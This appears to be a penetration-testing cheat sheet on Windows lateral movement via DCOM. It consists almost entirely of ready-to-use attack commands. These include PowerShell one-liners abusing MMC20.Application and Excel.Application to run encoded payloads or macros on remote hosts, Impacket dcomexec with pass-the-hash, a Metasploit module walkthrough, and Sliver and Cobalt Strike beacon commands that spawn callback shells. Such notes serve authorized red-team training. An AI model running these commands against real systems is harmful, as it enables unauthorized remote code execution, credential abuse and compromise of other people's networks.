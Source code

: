 # Distributed Component Object Model (DCOM)

## 01 - Powershell

### 1.1 - MMC20.Application

```powershell
C:\> powershell -exec bypass -command "[activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application', '<IP>')).Document.ActiveView.ExecuteShellCommand('C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe', $null, '-E <base64_payload>', '7')"

PS C:\> [activator]::CreateInstance([type]::GetTypeFromProgID('MMC20.Application', '<IP>')).Document.ActiveView.ExecuteShellCommand('C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe', $null, '-E <base64_payload>', '7')
```

### 1.2 - Excel.Application

```powershell
PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))
$com | Get-Member
```

`$ cat macro.vba`

---

```vbscript
Sub mymacro()
    'payload goes here
    Shell ("notepad.exe")
End Sub
```

`$ cat copyexceldcom.ps1`

---

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))

$LocalPath = "path\to\excelmacrofile.xls"

$RemotePath = "\\<IP>\C$\excelmacrofile.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

`$ cat openexceldcom.ps1`

---

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "<IP>"))

$LocalPath = "C:\path\to\excelmacrofile.xls"

$RemotePath = "\\<IP>\C$\excelmacrofile.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

# When running as system adminstrator privileges
$Path = "\\<IP>\C$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [System.IO.Directory]::CreateDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\excelmacrofile.xls")

$com.Run("mymacro")
```

## 02 - Impacket

`$ dcomexec <username>:<password>@<IP>`

- Pass the Hash

`$ dcomexec -hashes aad3b435b51404eeaad3b435b51404ee:<NT> <username>@<IP>`

## 03 - Metasploit

```
msf > use auxiliary/scanner/smb/impacket/dcomexec

msf auxiliary(scanner/smb/impacket/dcomexec) > options

Module options (auxiliary/scanner/smb/impacket/dcomexec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND                     yes       The command to execute
   OBJECT     MMC20            yes       The DCOM object to use for execution (Accepted: ShellWindows, ShellBrowserWindow, MMC20)
   OUTPUT     true             yes       Get the output of the executed command
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass                     yes       The password for the specified username
   SMBUser                     yes       The username to authenticate as
   THREADS    1                yes       The number of concurrent threads (max one per host)

msf auxiliary(scanner/smb/impacket/dcomexec) > set command <commands>

msf auxiliary(scanner/smb/impacket/dcomexec) > set object <MMC20 | ShellBrowserWindow | ShellWindows>

msf auxiliary(scanner/smb/impacket/dcomexec) > set output true

msf auxiliary(scanner/smb/impacket/dcomexec) > set rhosts <target_IP>

msf auxiliary(scanner/smb/impacket/dcomexec) > set smbuser <username>

msf auxiliary(scanner/smb/impacket/dcomexec) > set smbpass <password>

msf auxiliary(scanner/smb/impacket/dcomexec) > set smbdomain <domain_name>

msf auxiliary(scanner/smb/impacket/dcomexec) > set threads 2

msf auxiliary(scanner/smb/impacket/dcomexec) > run
```

## 04 - Sliver

### 4.1 - Spawn Callback Shell

TODO: Show a step by step approach using SharpCOM via `execute-assembly` (see references)

```
sliver (IMPLANT_NAME) > execute-assembly /path/to/SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\shell.exe"
```

## 05 - Cobalt Strike

### 5.1 - Spawn Callback Shell

TODO: Show a step by step approach using SharpCOM via execute-assembly (see references)

#### 5.1.1 - Invoke-DCOM

```
beacon> powershell-import Invoke-DCOM.ps1

beacon> <powershell | powerpick> Invoke-DCOM -ComputerName <IP> -Method <MMC20.Application | ShellWindows | ShellBrowserWindow | ExcelDDE> -Command C:\path\to\shell.exe

beacon> link <IP>
```

```
beacon> <powershell | powerpick> Invoke-DCOM -ComputerName <IP> -Method <ServiceCheck | MinimizeAll | ServiceStop | ServiceStart> "<service_name>"
```

#### 5.1.2 - SharpCOM

```
beacon> execute-assembly /path/to/SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\shell.exe"
```

---
## References

- [Invoke-DCOM](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/lateral_movement/Invoke-DCOM.ps1)

- [SharpCOM](https://github.com/rvrsh3ll/SharpCOM)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)